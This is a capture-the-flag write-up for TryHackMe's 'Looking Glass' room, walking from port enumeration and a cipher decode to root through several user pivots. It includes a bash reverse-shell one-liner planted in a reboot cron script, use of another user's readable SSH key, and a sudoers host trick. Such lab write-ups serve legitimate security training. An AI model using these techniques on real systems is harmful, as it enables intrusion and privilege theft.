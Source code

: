 # WriteUP for Looking Glass room from TryHackMe

## Objectives :- Get the user flag & Get the root flag.

### Hint :- O(log n) A looking glass is a mirror.

We Start our enumerations from nmap and we see a ton of ports , some of which have higher as output some as lower so this is a simple questions of binary search(hint confirms that). To acheive the real service i wrote this script [port_spammer.py](port_spammer.py). This gives us the real service.(We can try this by bash also).

So We get [this](cipher.txt) from the real service.
Looking around this we can use decode.fr to decode it using cipher Vigerne Cipher which on automatic decryption gives the write key and then we have the [decoded text](decoded.txt).

This file has the the secret 'bewareTheJabberwock'
So we supply this secret to ssh service.
And we get the creds.
and we login to find the user.txt, which has user flag in reverse  order so we can just 
```cat user.txt | rev ```.
now we can look around using linpeas.(lets copy it to the system)
```scp /location/linpeas.sh jabberwock@IP:. ```
and we see that upon reboot: - 
```
@reboot tweedledum bash /home/jabberwock/twasBrillig.sh
```
tweedledum will run this script so we can add a line

```
/bin/bash -c '/bin/bash -i >& /dev/tcp/<our ip>/<port> 2>&1 0>&1'
```
and we will listen on our machine from the port.
and we will get a reverse connection as tweedeldum.

And we get a file 'HumptyDumpty' which has many hashes out 5 are SHA256 we can crack it using CrackStation but they are not the password the final line is the password which is in base16.

Now that we have the password for humptydumpty we can login as humpty dumpty.
Now after much looking we realise that alice is executable but not readable, and the .ssh folder is executable by humptydumpty and the id_rsa is readable.
so now we can login as alice.
```
chmod 600 alice_id_rsa
ssh -i alice_id_rsa alice@IP
``` 
now that we are alice we can take a look at /etc/sudoers.d
and find out that alice can become root user named as ssalg-gnikool using
```sudo -h ssalg-gnikool```

and now we are root and we can get the root.txt file. 